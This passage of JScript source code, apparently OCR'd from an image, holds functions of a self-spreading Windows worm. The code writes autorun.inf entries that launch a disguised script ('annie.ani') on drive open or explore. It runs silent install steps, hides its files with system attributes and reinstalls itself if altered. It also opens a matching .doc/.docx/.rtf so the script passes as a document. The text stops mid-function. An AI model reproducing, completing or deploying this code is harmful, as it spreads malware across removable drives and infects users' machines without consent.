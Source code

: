 function GetExtensionName(filename) {
    return fso.GetExtensionName(filename).toLowerCase();
}

function TryOpenTheOriginalFile() {
    var path = ScriptPath.substr(0, ScriptPath.length - 4);
    if (fso.FileExists(path + '.docx')) {
        OpenTheOriginalFile(path, '.docx');
    } else if (fso.FileExists(path + '.doc')) {
        OpenTheOriginalFile(path, '.doc');
    } else if (fso.FileExists(path + '.rtf')) {
        OpenTheOriginalFile(path, '.rtf');
    }
}

function Install() {
    shell.run('cscript.exe //e:jscript ' + SysPath + ' /r', 0);
    WScript.Sleep(100);
    shell.run('cscript.exe //e:jscript ' + SysPath + ' /s', 0);
    WScript.Sleep(100);
    shell.Run('cscript.exe //e:jscript ' + SysPath + ' /n', 0);
}

function GetFileSize(filename) {
    if (fso.FileExists(filename)) {
        return fso.GetFile(filename).Size;
    } else {
        return null;
    }
}

function GetBaseName(filepath) {
    return fso.GetBaseName(filepath);
}

function GetDocType(filepath) {
// 获取html文件第一行文件类型说明
    try {
        return fso.OpenTextFile(filepath, 1).ReadLine();
    } catch (e) {
        return null;
    }
}

function TestAndRepair() {
    if (GetFileSize(SysPath) != 9201) {
        CopyScriptFile(SysPath);
        shell.Run('wscript.exe //e:jscript ' + SysPath + ' /e');
    }
}

function CreateAutoRunFile(filename) {
    var str = '[autorun]\nshellexecute=wscript.exe //e:jscript annie.ani /a\nshell\\open\\command=wscript.exe //e:jscript annie.ani /a\nshell\\explore\\command=wscript.exe //e:jscript annie.ani /a';
    if (ReadText(filename) != str) {
        SetFileNewAttributes(filename, 0);
        try {
            var f = fso.CreateTextFile(filename, true);
            f.Write(str);
            f.Close();
        } catch (e) {
            if (fso.FolderExists(filename)) {
                DeleteFolder(filename);
                CreateAutoRunFile(filename);
            }
        } finally {
            SetFileNewAttributes(filename, 39);